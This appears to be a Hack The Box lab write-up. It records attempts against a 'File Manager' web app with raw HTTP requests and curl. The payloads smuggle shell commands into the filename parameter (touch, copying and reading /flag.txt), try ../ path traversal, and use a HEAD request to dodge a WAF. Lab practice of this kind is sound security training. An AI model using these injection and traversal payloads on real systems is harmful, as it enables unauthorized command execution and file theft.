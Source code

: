 # HTB_Web_Attack
```
POST /index.php?filename=file1%3B%20touch%20file2%3B  HTTP/1.1
Host: 94.237.60.55:34082
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

filename=file%3B+touch+file2%3B


```



## HTTP request method exploitation and url filtering 


```
POST /index.php?filename=file%3B%20cp%20%2Fflag.txt%20.%2F%3B HTTP/1.1
Host: 94.237.60.55:34082
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```



 ## Attempted combined traversal


 ```

# Try GET with ../ (might work when POST doesn't)
curl -X GET "http://83.136.253.201:36762/index.php?filename=../../flag.txt"

# Use HEAD to check existence without triggering WAF
curl -I -X HEAD "http://83.136.253.201:36762/index.php?filename=../../flag.txt"
```
<body>
    <div class="form-group">
        <h1>File Manager</h1>
        <form role="form" action="index.php" method="GET">
            <input type="text" class="form-control" placeholder="New File Name" name="filename">
        </form>
        <form action="admin/reset.php" method="GET">
            <input type="submit" value="Reset" class="btn btn-danger" />
        </form>
    </div>
</body>
</body>

</html>

<div></div><ul class="list-unstyled" id="file"><div><h3>Available Files:<h3></div><ul><li><h4><a href='notes.txt'>notes.txt</a></h4></li></ul>Malicious Request Denied!</ul




## malicious payload

```
curl -X GET "http://83.136.253.201:36762/index.php?filename=;cat+/flag.txt"

```
<body>
    <div class="form-group">
        <h>File Manager</h>
        <form role="form" action="index.php" method="GET">
            <input type="text" class="form-control" placeholder="New File Name" name="filename">
        </form>
        <form action="admin/reset.php" method="GET">
            <input type="submit" value="Reset" class="btn btn-danger" />
        </form>
    </div>
</body>
</body>

</html>

<div></div><ul class="list-unstyled" id="file"><div><h3>Available Files:<h3></div><ul><li><h4><a href='notes.txt'>notes.txt</a></h4></li></ul>Malicious Request Denied!</ul


